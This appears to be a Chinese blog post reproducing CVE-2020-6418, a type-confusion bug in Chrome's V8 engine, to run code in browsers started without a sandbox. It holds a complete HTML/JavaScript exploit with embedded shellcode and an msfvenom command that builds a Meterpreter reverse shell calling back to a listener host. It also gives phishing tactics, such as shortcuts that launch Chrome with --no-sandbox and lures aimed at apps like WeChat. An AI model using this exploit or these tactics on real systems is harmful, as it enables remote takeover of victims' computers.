






# CVE-2020-6418-chrome 无沙箱 RCE 复现 - 雨九九 - 博客园

> 原文：[`www.cnblogs.com/Rain99-/p/14673789.html`](https://www.cnblogs.com/Rain99-/p/14673789.html)

目录

*   1\. 漏洞简介
    *   1.1 影响范围
    *   1.2 利用条件
*   2\. 复现
    *   2.1 弹记事本
    *   2.2 msf 上线
*   3\. 实战利用场景
    *   [3.1 快捷方式钓鱼[点击上线]](#31-快捷方式钓鱼点击上线)
    *   [3.2 结合无沙盒启动 chrome 的应用[点击上线]](#32-结合无沙盒启动 chrome 的应用点击上线)
    *   3.3 反制爬虫/扫描器
*   4\. 参考

# 1\. 漏洞简介

2 月 25 日，谷歌 Chrome 浏览器与微软 Edge 浏览器发布了安全更新，在 Google Chrome 浏览器 80.0.3987.122 以下与 Microsoft Edge 浏览器 80.0.361.62 以下的版本中，开源 JavaScript 和 WebAssembly 引擎 V8 中存在一个类型混淆漏洞（CVE-2020-6418），可能导致攻击者非法访问数据，从而执行恶意代码。有研究人员发现，在更新发布前，该漏洞就已经被攻击者用于实际攻击。

## 1.1 影响范围

Google Chrome < 80.0.3987.122

> 实际测试中 90 版本也受影响

Microsoft Edge < 80.0.361.62
使用 V8 引擎的浏览器


## 1.2 利用条件

chrome 开启`--no-sandbox`，即以无沙盒模式启动

> 如果成功以无沙盒模式启动，chrome 会有提示。未成功可先关掉其他正常 chrome，再尝试无沙盒启动

# 2\. 复现

## 2.1 弹记事本

poc

```
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>test</title>
<script>
    function gc() {
        for (var i = 0; i < 0x80000; ++i) {
            var a = new ArrayBuffer();
        }
    }
    let shellcode = [0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
        0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52, 0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52,
        0x20, 0x48, 0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
        0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0xE2, 0xED,
        0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88,
        0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
        0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41, 0x8B, 0x34, 0x88, 0x48,
        0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1,
        0x38, 0xE0, 0x75, 0xF1, 0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
        0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,
        0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A,
        0x41, 0x58, 0x41, 0x59, 0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
        0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48, 0xBA, 0x01, 0x00, 0x00,
        0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B,
        0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 0x56, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
        0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47,
        0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x6E, 0x6F, 0x74, 0x65, 0x70,
        0x61, 0x64, 0x2E, 0x65, 0x78, 0x65, 0x00];
    var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
    var wasmModule = new WebAssembly.Module(wasmCode);
    var wasmInstance = new WebAssembly.Instance(wasmModule);
    var main = wasmInstance.exports.main;
    var bf = new ArrayBuffer(8);
    var bfView = new DataView(bf);
    function fLow(f) {
        bfView.setFloat64(0, f, true);
        return (bfView.getUint32(0, true));
    }
    function fHi(f) {
        bfView.setFloat64(0, f, true);
        return (bfView.getUint32(4, true))
    }
    function i2f(low, hi) {
        bfView.setUint32(0, low, true);
        bfView.setUint32(4, hi, true);
        return bfView.getFloat64(0, true);
    }
    function f2big(f) {
        bfView.setFloat64(0, f, true);
        return bfView.getBigUint64(0, true);
    }
    function big2f(b) {
        bfView.setBigUint64(0, b, true);
        return bfView.getFloat64(0, true);
    }
    class LeakArrayBuffer extends ArrayBuffer {
        constructor(size) {
            super(size);
            this.slot = 0xb33f;
        }
    }
    function foo(a) {
        let x = -1;
        if (a) x = 0xFFFFFFFF;
        var arr = new Array(Math.sign(0 - Math.max(0, x, -1)));
        arr.shift();
        let local_arr = Array(2);
        local_arr[0] = 5.1;//4014666666666666
        let buff = new LeakArrayBuffer(0x1000);//byteLength idx=8
        arr[0] = 0x1122;
        return [arr, local_arr, buff];
    }
    for (var i = 0; i < 0x10000; ++i)
        foo(false);
    gc(); gc();
    [corrput_arr, rwarr, corrupt_buff] = foo(true);
    corrput_arr[12] = 0x22444;
    delete corrput_arr;
    function setbackingStore(hi, low) {
        rwarr[4] = i2f(fLow(rwarr[4]), hi);
        rwarr[5] = i2f(low, fHi(rwarr[5]));
    }
    function leakObjLow(o) {
        corrupt_buff.slot = o;
        return (fLow(rwarr[9]) - 1);
    }
    let corrupt_view = new DataView(corrupt_buff);
    let corrupt_buffer_ptr_low = leakObjLow(corrupt_buff);
    let idx0Addr = corrupt_buffer_ptr_low - 0x10;
    let baseAddr = (corrupt_buffer_ptr_low & 0xffff0000) - ((corrupt_buffer_ptr_low & 0xffff0000) % 0x40000) + 0x40000;
    let delta = baseAddr + 0x1c - idx0Addr;
    if ((delta % 8) == 0) {
        let baseIdx = delta / 8;
        this.base = fLow(rwarr[baseIdx]);
    } else {
        let baseIdx = ((delta - (delta % 8)) / 8);
        this.base = fHi(rwarr[baseIdx]);
    }
    let wasmInsAddr = leakObjLow(wasmInstance);
    setbackingStore(wasmInsAddr, this.base);
    let code_entry = corrupt_view.getFloat64(13 * 8, true);
    setbackingStore(fLow(code_entry), fHi(code_entry));
    for (let i = 0; i < shellcode.length; i++) {
        corrupt_view.setUint8(i, shellcode[i]);
    }
    main();
</script>
</head>
</html> 
```

cmd 运行`"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --no-sandbox`，以无沙箱启动 chrome 访问 poc 页面


## 2.2 msf 上线

msf 生成 64 位 shellcode
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.146.231 LPORT=16041 -f c > /root/CVE-2020-6418/poc.c`

notepad++修改代码，去`"`，多行合并一行，`\`替换成`,0`，将修改后的 shellcode 替换到弹记事本 poc 中 shellcode 处

python 起个 http 服务分享 poc 页面
靶机访问该网页即上线 msf


靶机关闭 poc 网页会导致掉线


# 3\. 实战利用场景

始终注意，需要满足无沙盒启动 chrome 的条件

## 3.1 快捷方式钓鱼[点击上线]

创建 chrome 快捷方式

创建的快捷方式右键-属性-快捷方式-目标 处加上`--no-sandbox 利用页面 url`

打开该快捷方式即上线
在实际钓鱼中，可通过修改图标/配合图文/插入到 word 中等诱导受害者点击

## 3.2 结合无沙盒启动 chrome 的应用[点击上线]

一些应用内部打开网页时，是以无沙盒方式调用内置基于 chrome 的浏览器[优化性能]，攻击者通过发送链接等方式诱导受害者在应用内打开加载利用 js 代码的网页即可实现点击上线
[无沙盒运行 Chromium 的应用列表](https://github.com/sickcodes/no-sandbox)
国内如 wpspdf，为知笔记，有道云笔记等，测试中为知和 wpspdf 都是--no-sandbox，但弹窗均未成功，可能和所使用 chrome 版本有关

1.  微信
    [微信 RCE 0day 演示- 附 POC 下载](https://mp.weixin.qq.com/s?__biz=MzkwMTE4NDM5NA==&mid=2247483788&idx=1&sn=54d5cb3db78925c59344448e188a475a&chksm=c0b9ef69f7ce667f3a9c3d9f4cac96368ca9521b6fbfb1ae0b19db4d42433ed011d8c6e49967&mpshare=1&scene=23&srcid=0417LqrOFF3I7IHg9PWnjmx1&sharer_sharetime=1618722834013&sharer_shareid=573e169d70351017c968db63a63c0ed9#rd)
    微信 3.2.1.141 以前版本，内置基于 chrome 的浏览器默认以无沙盒方式启动
    
2.  为知
    
3.  wps
    

## 3.3 反制爬虫/扫描器

部分爬虫也是调用了 chrome，而且为了性能考虑关了沙盒。部署利用页面在网站内让调用无沙盒 chrome 的爬虫爬取即可反制
appscan[已证实可上线]，rad 都是--no-sandbox 调用 chrome 的
burp---[反制爬虫之 Burp Suite RCE](http://noahblog.360.cn/burp-suite-rce/)

# 4\. 参考

[`github.com/fengxuangit/ChromeRce`](https://github.com/fengxuangit/ChromeRce)
[`mp.weixin.qq.com/s/Mu1o-Ky9wn8T6IDhx7_skQ`](https://mp.weixin.qq.com/s/Mu1o-Ky9wn8T6IDhx7_skQ)
[`www.bilibili.com/video/BV1e64y1v7qB`](https://www.bilibili.com/video/BV1e64y1v7qB)
[`blog.nsfocus.net/cve-2020-6418-2/`](http://blog.nsfocus.net/cve-2020-6418-2/)